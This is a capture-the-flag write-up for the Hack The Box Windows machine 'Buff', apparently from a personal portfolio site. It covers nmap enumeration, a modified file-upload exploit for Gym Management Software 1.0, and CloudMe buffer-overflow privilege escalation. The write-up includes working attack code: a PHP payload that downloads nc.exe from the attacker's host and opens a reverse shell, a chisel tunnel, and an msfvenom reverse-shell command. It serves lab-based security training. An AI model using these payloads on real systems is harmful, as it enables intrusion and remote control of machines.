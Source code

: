 ```yaml
---
permalink: /portfolio/htb_windows/
author: Rick Theeuwes

defaults:
  # _pages
  - scope:
      path: ""
      type: pages
    values:
      layout: single
      author_profile: true
toc: true
title: Windows Hack The Box Writeup for Buff
---
```


## Enumeration

As always, we start off with a Nmap:

```bash
sudo nmap 10.10.10.198 -p 7680,8080 -sC -sV -oN nmap.txt
```

Before this command, I ran `nmap 10.10.10.198 -p-` to get the ports 7680 and 8080. The flag `-sC` stands for default enum-scripts, and the `-sV` flag is for the version enumeration scripts. `-oN` states that all the text-results should be saved to the file named `nmap.txt`.

With the result:

```bash
# Nmap 7.80 scan initiated Tue Sep  1 11:06:01 2020 as: nmap -p 7680,8080 -sC -sV -oN nmap.txt 10.10.10.198
Nmap scan report for 10.10.10.198 (10.10.10.198)
Host is up (0.091s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6
|_http-title: mrb3n's Bro Hut

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Sep  1 11:07:12 2020 -- 1 IP address (1 host up) scanned in 71.03 seconds
```

I don't know what `pando-pub` is, so let's take a look at the website first. It appears to be Gym-management software.

![gym](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/gym.png)

Alright, let's take a look around.

![contacts](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/contact.png)

A software name and version, perfect! So, we are dealing with `Gym Management Software 1.0` here. That does not sound secure, let's see if anyone already found an exploit:

```bash
searchsploit Gym Management
```

![searchsploit](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/searchsploit.png)

It appears a problem with filtering in a picture upload, in `upload.php`. If we put some image magic bytes in front of a PHP-script, it will accept it and we can run the PHP-script. Running the exploit found on exploit-DB gives us this weird pseudo-shell, which sends a new request for every command. This is not useful, so we have to edit it.

![pseudo](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/psuedo.png)

So, I modified it to this:

```python
import requests, sys, urllib, re

if __name__ == "__main__":
        SERVER_URL = 'http://10.10.10.198:8080/'
        UPLOAD_DIR = 'upload.php?id=shel'
        UPLOAD_URL = SERVER_URL + UPLOAD_DIR
        s = requests.Session()
        s.get(SERVER_URL, verify=False)
        png     = {
                'file': 
                  (
                    'kaio-ken.php.png', 
                    '\x89\x50\x4e\x47\x0d\x0a\x1a \n <?php echo shell_exec("powerShell (New-Object System.Net.WebClient).DownloadFile(\'http://10.10.14.16/nc.exe\' \'nc.exe\'); 2>&1; ./nc.exe -e cmd.exe 10.10.14.16 8090"); ?>',
                    'image/png', 
                    {'Content-Disposition': 'form-data'}
                  ) 
        }
        fdata   = {'pupload': 'upload'}
        r1 = s.post(url=UPLOAD_URL, files=png, data=fdata, verify=False)
        print r1.text

```

This payload sends a file upload to the victim with a PHP-script. This script executes a `Powershell` command, to download Netcat (`nc.exe`) and execute it with `cmd.exe` to my kali. This generates a reverse shell and allows me to do much more.

## Exploitation

To execute the script, we navigate to `http://10.10.10.198:8080/upload/shel.php`, this executes the uploaded PhP-script and allows us to get the shell. We do need to have a python-webserver running so the victim can download Netcat and we need to have a Netcat listener to catch it.

![shell](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/shell_win.png)

And there it is, a reverse shell!
This also gives us access to the `user.txt` file, located in `C:\Users\shaun\Desktop\user.txt`

## Privilege escalation

So, how do we go from here? Well, after looking around Shaun's home folder, I found `CloudMe_1112.exe` in his Downloads folder. This means that `Cloud Me` is installed, with version number `1112`, or `1_11_2`. This version is vulnerable to a buffer overflow.

![overflow](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/overflow.png)

But, this is a python-based exploit, so we cannot run this on the victim. To run this exploit, we need a reverse proxy, so we can use the locally open port. I used (`chisel`)[https://github.com/jpillora/chisel] for the proxy.

```bash
#kali
./chisel server --port 9002 --reverse

#victim
powerShell (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.2/chisel.exe','C:\users\shaun\downloads\chisel.exe');
.\chisel.exe client 10.10.14.2:9002 R:8888:127.0.0.1:8888
```

Okay, now we have the reverse connection we can generate and run the exploit. We use the first exploit (`48389.py`), but we still need a payload for the victim to execute, let's generate that with `msfvenom`

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=8091 EXITFUNC=thread -b "\x00\x0d\x0a" -f python
```

Still generates a byte-code payload for a reverse shell back to me. And after executing this we catch a shell on our listener!

![root](https://raw.githubusercontent.com/Riqky/riqky.github.io/master/assets/images/htb/root_win.png)

Done!
